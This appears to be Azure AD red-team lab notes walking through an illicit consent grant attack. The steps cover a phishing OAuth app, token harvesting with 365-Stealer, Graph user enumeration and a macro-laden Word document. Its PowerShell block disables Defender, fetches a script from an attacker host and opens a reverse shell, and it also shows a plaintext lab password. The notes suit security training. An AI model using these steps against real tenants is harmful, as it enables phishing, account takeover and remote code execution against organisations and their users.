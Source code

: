 # Consent and Permissions
•  Applications can ask users for permissions to access their data. For example, for basic sign-in.

•  If allowed, a normal user can grant consent only for "Low Impact" permissions. In all other cases, admin consent is required.

•  GA, Application Administrator, Cloud Application Administrator and a custom role including 'permission to grant permissions to applications' can provide tenant- wide consent.


•  Consent policies can be set for all users
- Do not allow user consent
- Allow user consent for apps from verified publishers, for selected permissions 
- Only for "Low Impact" permissions for apps from same tenant and verified publisher
- Allow user consents for all apps - Allows consent for apps from other tenants and unverified publishers for Low Impact permissions (Default)
- Custom app consent policy
  
•  'Allow user consent for all apps' is interesting and abusable!
•  Only the permissions that don't need admin consent can be classified as low impact.
•  Permissions required for basic sign-in are openid, profile, email, User.Read and offline_access.
•  That means, if an organization allows user consent for all apps, an employee can grant consent to an app to read the above from their profile.
•  There are some very interesting low impact permissions. For example: User.ReadBasic.All that allows the app to read display name, first and last name, email address, open extensions and photo for all the users!


## Initial Access - Illicit Consent Grant

•  Register a Multitenant application studentx in defcorpextcontractors tenant.
•  Provide the Redirect URI where you would like to receive tokens. In the lab, it will be the student VM https://172.16.151.X/login/authorized (or
172.16.150.X or 172.16.152.X depending on your location)
•  Go to the 'Certificates & secrets' blade and create new Client secret. Copy the client secret before browsing away from the page.
•  Go to the 'API permissions' blade and add the following Delegated
permissions for Microsoft Graph: user.read, User.ReadBasic.All


Note: In case we want to use Access tokens, following config is required - In the 'Authentication' option of the studentx app, check 'Access tokens (used for implicit flows)' and click on 'Save'. We will use Refresh token so no configuration is required.


•  We have user privilege access to the defcorphq tenant. Check if users are allowed to consent to apps.

•  Use Azure Portal or the below command from the AzureAD Preview module:

```(Get- AzureADMSAuthorizationPolicy).PermissionGrantPolicyIdsAs signedToDefaultUserRole```

•  If the output of above is 'ManagePermissionGrantsForSelf.microsoft- user-default-legacy', that means users can consent for all apps!
•  In a real assessment, we simply need to try to know.


### Initial Access - Illicit Consent Grant - 365 Stealer


•   Let's use 365-stealer (https://github.com/AlteredSecurity/365-Stealer) to abuse the consent grant settings!
•   Please note that the attack can be executed using the o365 toolkit (https://github.com/mdsecactivebreach/o365-attack-toolkit) as well. But due to some limitations in the lab, we are not using it.

•   Run xampp Control Panel (Run as administrator) and start Apache on the student VM.
•   Copy the '365-stealer' directory from C:\AzAD\Tools to C:\xampp\htdocs to capture tokens returned by Azure AD.
•   Using the '365-Stealer Configuration' button , configure CLIENTID, REDIRECTURL and CLIENTSECRET
•   Click on 'Run 365-Stealer' to run the tool.
•   Browse to https://localhost using an incognito window and click on 'Read More' in the web page. This gives you the phishing link that is to be sent to the target.

#### Initial Access - Illicit Consent Grant


•  We need to find a way to send the link to targets. We can abuse applications that allow us to contact users in the target organization.
•  We can find applications running on the defcorphq tenant by sub-domain recon.
•  Use MicroBurst to find the applications. We can add permutations like career, hr, users, file, backup to the permuations.txt used by MicroBurst etc.

```
. C:\AzAD\Tools\MicroBurst\Misc\Invoke-EnumerateAzureSubDomains.ps1
Invoke-EnumerateAzureSubDomains -Base defcorphq -Verbose
```



•  We can also assume that the https://defcorphqcareer.azurewebsites.net application is known as a contractor may have some existing knowledge of the target.


•  Using the 'Need Help' section of the career application running on defcorphq, send the phishing link. https://login.microsoftonline.com/common/oauth2/authorize?response_type=code&client_id=dd84e18a-4b33-45c8-b36c-41ccb4624802&scope=https://graph.microsoft.com/.default+openid+offline_access+&redirect_uri=https://172.16.151.X/login/authorized&response_mode=query&sso_reload=true


•   Wait for couple of minutes and browse to http://localhost:82/365-Stealer/yourvictims/ on the attacking machine to get tokens for victims who click on the phishing link.
•   Use the access token with the Graph API to list other users in the tenant.
•   Note that only the permissions that we requested earlier are available with the access token.
We can list all the users thanks to User.ReadBasic.All

```
$Token = 'eyJ0eXAiOiJK...'
$URI = 'https://graph.microsoft.com/v1.0/users'

$RequestParams = @{ Method = 'GET' Uri    = $URI Headers = @{
'Authorization' = "Bearer $Token"
}
}
(Invoke-RestMethod @RequestParams).value
```

•   We need to target an Application Administrator to grant consent for better permissions.
•   Ideally, we have to target all the users. For the lab, we can use our earlier enumeration that Application Administrator role is assigned to markdwalden@defcorphq.onmicrosoft.com
•   We need to register a new app (or modify existing one) and now request permissions that need admin consent - mail.read, notes.read.all, mailboxsettings.readwrite, files.readwrite.all, mail.send
•   Generate a new link using 'Read More' on https://localhost and send an email to the user containing that link (Remember to change the client ID if you register a new application): https://login.microsoftonline.com/common/oauth2/authorizeresponse_type=code&client_id=dd84e18a-4b33-45c8-b36c-41ccb4624802&scope=https://graph.microsoft.com/.default+openid+offline_access+&redirect_uri=https://172.16.151.X/login/authorized&response_mode=query&sso_reload=true

•   Once the user simulation grants consent, we will get the access token of the application administrator.
•   Using the access token of application administrator, we can use 365-stealer to upload macro infected doc files to the user's OneDrive.
•   The user simulation will open these macro infested word files and execute the macro.
•   A licensed version of Office 365 is available on 172.16.1.250 to create doc files
```
$passwd = ConvertTo-SecureString "ForCreatingWordDocs@123" -AsPlainText -Force
$creds = New-Object System.Management.Automation.PSCredential ("office- vm\administrator", $passwd)
$officeVM = New-PSSession -ComputerName 172.16.1.250 -Credential $creds
Enter-PSSession -Session $officeVM
Set-MpPreference -DisableRealtimeMonitoring $true
IEX (New-Object Net.Webclient).downloadstring("http://172.16.150.x:82/Out-Word.ps1") Out-Word -Payload "powershell iex (New-Object Net.Webclient).downloadstring('http://172.16.150.x:82/Invoke-PowerShellTcp.ps1');Power -Reverse -IPAddress 172.16.150.x -Port 4444" -OutputFile studentx.doc
Copy-Item -FromSession $officeVM -Path C:\Users\Administrator\Documents\studentx.doc
-Destination C:\AzAD\Tools\studentx.doc
```


•  Start a listener on the student VM

•  On the student VM, use 365-stealer webconsole or CLI to upload the doc to OneDrive of MarkDWalden@defcorphq.onmicrosoft.com
```
python C:\xampp\htdocs\365-Stealer\365-Stealer.py -- refresh-user MarkDWalden@defcorphq.onmicrosoft.com --upload C:\AzAD\Tools\studentx.doc
```
